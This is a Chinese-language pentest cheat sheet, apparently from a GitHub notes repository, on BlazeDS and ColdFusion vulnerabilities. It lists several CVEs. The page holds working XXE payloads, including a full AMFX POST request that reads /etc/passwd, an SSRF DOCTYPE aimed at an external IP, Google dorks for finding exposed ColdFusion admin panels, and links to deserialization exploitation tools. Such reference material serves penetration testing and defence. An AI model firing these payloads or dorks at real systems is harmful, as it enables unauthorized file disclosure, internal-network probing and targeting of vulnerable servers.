 ### [CVE-2009-3960] XXE BlazeDS<= 3.2
影响组件：
HTTPChannel servlet。具体的，是
```
“mx.messaging.channels.HTTPChannel”
“mx.messaging.channels.SecureHTTPChannel”
```
在这个包`flex-messaging-common.jar`里。
HTTPChannel 以AMFX格式的数据进行通信（就是AMF的XML格式）。
这个endpoints在这个文件`Flex/WEB-INF/services-config.xml`里定义。

默认HTTPChannel映射到了以下接口：
- /messagebroker/http
- /messagebroker/httpsecure
不过不同的框架（比如BlazeDS, Adobe LiveCycle Data Services）会被映射到不同的路径。

```http
POST /samples/messagebroker/http HTTP/1.1
Content-type: application/x-amf

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [ <!ENTITY x3 SYSTEM "/etc/passwd"> ]>
<amfx ver="3" xmlns="http://www.macromedia.com/2005/amfx">
  <body>
    <object type="flex.messaging.messages.CommandMessage">
      <traits>
        <string>body</string><string>clientId</string><string>correlationId</string>
        <string>destination</string><string>headers</string><string>messageId</string>
        <string>operation</string><string>timestamp</string><string>timeToLive</string>
      </traits><object><traits />
      </object>
      <null /><string /><string />
      <object>
        <traits>
          <string>DSId</string><string>DSMessagingVersion</string>
        </traits>
        <string>nil</string><int>1</int>
      </object>
      <string>&x3;</string>
<int>5</int><int>0</int><int>0</int>
    </object>
  </body>
</amfx>
```

参考：
- [Adobe (Multiple Products) - XML External Entity / XML Injection](https://www.exploit-db.com/exploits/11529)
- [Adboe官方对BlazeDS的公告](https://www.adobe.com/support/security/bulletins/apsb10-05.html)

### [CVE-2015-3269]XXE BlazeDS< 4.7.1
http://mail-archives.apache.org/mod_mbox/flex-users/201511.mbox/%3Cop.x8j4mv0bn9yd54@christofers-macbook-pro.local%3E
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

### [CVE-2015-5255]SSRF BlazeDS< 4.7.2
http://apache-flex-users.2333346.n4.nabble.com/CVE-2015-3269-Apache-Flex-BlazeDS-Insecure-Xml-Entity-Expansion-Vulnerability-td10976.html

```xml
<!DOCTYPE foo PUBLIC "-//VSR//PENTEST//EN"
"http://49.x.y.z:8888/protected-service"><foo>Some content</foo>
```


### [CVE-2017-3066]Adobe Coldfusion BlazeDS反序列化
影响范围：
- Adobe ColdFusion 2016 Update 3 and earlier
- Adobe ColdFusion 11 update 11 and earlier
- ColdFusion 10 Update 22 and earlier


### [CVE-2017-5641] 反序列化 BlazeDS< 4.7.3
- [[CVE-2017-5641] - DrayTek Vigor ACS 2 Java Deserialisation RCE](https://seclists.org/fulldisclosure/2018/Apr/40)


## 参考
- [Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remote Code Execution](https://www.exploit-db.com/exploits/43993)
- https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html
- [Exploitation Tool for CVE-2017-3066 targeting Adobe Coldfusion 11/12](https://github.com/codewhitesec/ColdFusionPwn/tree/master/src/main/java)
- https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2017-3066/README.zh-cn.md
- [Adobe官方公告](https://helpx.adobe.com/security/products/coldfusion/apsb17-14.html)

# 其他参考

- [ColdFusion for Pentesters](http://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf)
- http://web.archive.org/web/20101226181618/http://www.security-assessment.com/files/advisories/2010-02-22_Multiple_Adobe_Products-XML_External_Entity_and_XML_Injection.pdf


## Google Dorks
```
- filetype:cfm "cfapplication name" password
- inurl:login.cfm
- intitle:"Error Occurred" "The error occurred in"
- filetype:cfm
- intitle:"ColdFusion Administrator Login“
- intitle:"Index of" cfide
- inurl:/CFIDE/componentutils/
```


## CodeFusion各个版本的界面


# 利用工具
- https://github.com/codewhitesec/ColdFusionPwn/tree/master/src/main/java
- https://github.com/mbechler/marshalsec/blob/6e5f2a7974a62fcd0e5bbbf8df64774a50db2eb8/src/main/java/marshalsec/BlazeDSAMF3AM.java
- https://github.com/mbechler/marshalsec/blob/0471b932a09c8aca21876de80c8abf65b251c9ca/src/main/java/marshalsec/BlazeDSAMFX.java
- https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2017-3066/README.zh-cn.md




